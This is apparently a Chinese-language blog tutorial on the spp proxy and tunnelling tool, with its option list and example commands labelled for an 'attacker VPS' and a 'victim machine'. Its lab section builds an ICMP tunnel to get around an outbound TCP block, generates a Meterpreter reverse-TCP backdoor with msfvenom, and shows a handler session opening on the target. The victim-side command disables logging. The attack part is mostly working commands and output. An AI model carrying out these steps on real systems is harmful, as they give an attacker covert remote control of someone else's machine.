

# 隧道工具-spp
<div style="text-align: right;">

date: "2023-12-04"

</div>

>  一个简单而强大的代理

下载地址：https://github.com/esrrhs/spp

## 工具特点

1. 支持的协议：tcp、udp、rudp(可靠udp)、ricmp(可靠icmp)、rhttp(可靠http)、kcp、quic
2. 支持的类型：正向代理、反向代理、socks5正向代理、socks5反向代理
3. 协议和类型可以自由组合
4. 外部代理协议和内部转发协议可以自由组合
5. 支持 Shadowsocks 插件, [spp-shadowsocks-plugin](https://github.com/esrrhs/spp-shadowsocks-plugin)，[spp-shadowsocks-plugin-android](https://github.com/esrrhs/spp-shadowsocks-plugin-android)
6. 不支持DNS协议




## 参数说明

```bash
Usage of spp.exe:
  -compress int
        开始压缩大小，0表示关闭（默认128）
  -encrypt string
        加密密钥，空表示关闭（默认“default”）
  -fromaddr value
        来自地址
  -key string
        验证密钥（默认“123456”）
  -listen value
        服务器监听地址
  -loglevel string
        日志级别（默认“信息”）
  -maxclient int
        最大客户端连接数（默认 8）
  -maxconn int
        最大连接数（默认 128）
  -name string
        客户名称（默认“客户”）
  -nolog int
        写入日志文件
  -noprint int
        打印标准输出
  -password string
        socks5 密码
  -ping
        显示 ping
  -profile int
        打开个人资料
  -proto value
        主要原型类型：[tcp rudp ricmp kcp quic rhttp]
  -proxyproto value
        代理原型类型：[tcp rudp ricmp kcp quic rhttp udp]
  -server string
        服务器地址
  -toaddr value
        至地址
  -type string
        类型：server/proxy_client/reverse_proxy_client/socks5_client/reverse_socks5_client
  -username string
        socks5 用户名
```


## 基础使用

### 攻击者VPS

```bash
./spp -type server -proto tcp -listen :8888
```

解析：

1. `-type`：指定服务类型模式：server（服务端模式）
2. `-proto`：最终流量到达VPS需要被解密为TCP协议
3. `-listen`：监听本地8888端口

```bash
./spp -type server -proto tcp -listen :8888 -proto rudp -listen :9999 -proto ricmp -listen 0.0.0.0
```

解析：
前面的命令基本一致，根据前面的解析，可以知道上述命令的作用为：

1. 服务端模式监听8888端口流量为tcp
2. 监听9999端口流量为rudp，也就是udp
3. 监听其它所有除开8888端口和9999端口流量为ricmp，也就是icmp

```bash
docker run --name my-server -d --restart=always --network host esrrhs/spp ./spp -proto tcp -listen :8888
```

docker命令不太熟，不过也可以看出来这是监听8888端口流量为tcp

### 受害机

将本地8080映射到example.com的8080端口，访问example.com 8080相当于访问本地8080

```bash
./spp -name "test" -type proxy_client -server example.com:8888 -fromaddr :8080 -toaddr :8080 -proxyproto tcp
```

解析：

1. `-name`：指定客户机名称为test
2. `-type`：指定代理类型为客户端正向代理
3. `-server`：指定攻击者VPS为“example.com:8888”
4. `-fromaddr`：指定将受害机本地的8080端口
5. `-toaddr`：指定攻击者的端口为：8080
6. `-proxyproto`：需要被封装的协议类型为TCP

启动TCP反向代理，将本地8080映射到example.com的8080端口，访问example.com8080相当于访问本地8080

```bash
./spp -name "test" -type reverse_proxy_client -server example.com:8888 -fromaddr :8080 -toaddr :8080 -proxyproto tcp
```

启动TCP Positive Socks5 Agent，在本地8080端口开启SOCKS5协议，通过Server访问Server中的网络
```bash
./spp -name "test" -type socks5_client -server example.com:8888 -fromaddr :8080 -proxyproto tcp
```

启动TCP Reverse Socks5 Agent，在example.com的8080端口开启Socks5协议，通过Client在客户端访问网络
```bash
./spp -name "test" -type reverse_socks5_client -server example.com:8888 -fromaddr :8080 -proxyproto tcp
```

Client与Server内部通信，也可以修改为其他协议，外部协议与内部协议自动转换。例如

```bash
# 代理TCP，内部RUDP协议转发
./spp -name "test" -type proxy_client -server www.server.com:8888 -fromaddr :8080 -toaddr :8080 -proxyproto tcp -proto rudp

# 代理TCP，内部RICMP协议转发
./spp -name "test" -type proxy_client -server www.server.com -fromaddr :8080 -toaddr :8080 -proxyproto tcp -proto ricmp

# 代理UDP，内部TCP协议转发
./spp -name "test" -type proxy_client -server www.server.com:8888 -fromaddr :8080 -toaddr :8080 -proxyproto udp -proto tcp

# 代理UDP，内部KCP协议转发
./spp -name "test" -type proxy_client -server www.server.com:8888 -fromaddr :8080 -toaddr :8080 -proxyproto udp -proto kcp

# 代理TCP，内部Quic协议转发
./spp -name "test" -type proxy_client -server www.server.com:8888 -fromaddr :8080 -toaddr :8080 -proxyproto tcp -proto quic

# 代理TCP，内部RHTTP协议转发
./spp -name "test" -type proxy_client -server www.server.com:8888 -fromaddr :8080 -toaddr :8080 -proxyproto tcp -proto rhttp
```

## 实验环境

> 当目标主机入站无规则且禁止所有TCP协议出网时该如何搭建隧道，在不使用正向连接的情况下，如何让让受害者主动连接攻击者VPS


| 机器 | IP | 状态 |
| --- | --- | --- |
| Win10 | 192.168.36.130 | 禁止所有TCP协议出网。入站无规则限制 |
| Kali | 192.168.36.128 |  |

### 攻击者VPS
Kali上的spp设置

```bash
sudo su
./spp -type server -proto ricmp -listen 0.0.0.0
```

msf生成反向后门

```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=127.0.0.1 LPORT=4444 -f exe > 20231203.exe
```

开启监听

```bash
msf6 > use exploit/multi/handler 
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set payload windows/x64/meterpreter/reverse_tcp
payload => windows/x64/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > set lhost 0.0.0.0
lhost => 0.0.0.0
msf6 exploit(multi/handler) > set lport 5555
lport => 5555
msf6 exploit(multi/handler) > exploit 

[*] Started reverse TCP handler on 0.0.0.0:5555 
[*] Sending stage (200774 bytes) to 127.0.0.1
[*] Meterpreter session 1 opened (127.0.0.1:5555 -> 127.0.0.1:40758) at 2023-12-03 08:26:22 -0500

meterpreter > getuid
Server username: DESKTOP-2JRVAGS\c
meterpreter > 

```

### 受害机

```bash
spp.exe -name "test" -type proxy_client -server 192.168.36.128 -fromaddr :4444 -toaddr :5555 -proxyproto tcp -proto ricmp -nolog 1 -noprint 1
```

双击运行20231203.exe，即可突破tcp封禁上线tcp协议的后门
